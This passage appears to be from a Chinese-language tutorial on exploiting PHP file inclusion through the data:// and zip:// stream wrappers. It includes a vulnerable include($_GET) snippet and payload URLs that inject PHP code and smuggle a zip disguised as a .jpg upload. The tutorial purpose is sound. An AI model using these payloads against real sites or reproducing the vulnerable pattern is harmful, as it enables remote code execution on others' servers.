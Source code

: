 `http://localhost:32989/?a=php://output`

### data://

data:资源类型;编码,内容

数据流封装器

当`allow_url_include`打开的时候,任意文件包含就会成为任意命令执行,`data://`协议必须在双on时才能正常使用

```php
<?php
include($_GET["a"]);
?>
```

`http://localhost:32989/?a=data://text/plain,%3C?php%20phpinfo();%20?%3E`

### zip://,bzip2://,zlib://协议

`zip://`,`bzip2://`,`zlib://`协议在双off的情况下也可以正常使用

3个封装协议,都是直接打开压缩文件

`compress.zlib://file.gz` - 处理的是 '.gz' 后缀的压缩包

`compress.bzip2://file.bz2` - 处理的是 '.bz2' 后缀的压缩包

`zip://archive.zip#dir/file.txt` - 处理的是 '.zip' 后缀的压缩包里的文件

`zip://`,`bzip2://`,`zlib://`均属于压缩流,可以访问压缩文件中的子文件,更重要的是不需要指定后缀名

#### zip://协议

使用方法:

`zip://archive.zip#dir/file.txt`

`zip://[压缩文件绝对路径]#[压缩文件内的子文件名]`

要用绝对路径+url编码#即`%23`

> 测试

新建一个名为zip.txt的文件,内容为`<?php phpinfo();?>`,然后压缩为名为test.zip的zip文件

如果可以上传zip文件则上传zip文件,若不能则重命名为test.jpg后上传

其他几种压缩格式也可以这样操作

更名为jpg

payload:`http://127.0.0.1/xxx.php?a=zip://C:\Users\liuxianglai\Desktop\test.jpg%23zip.txt`

### bzip2://协议

使用方法:

`compress.bzip2://file.bz2`

相对路径也可以
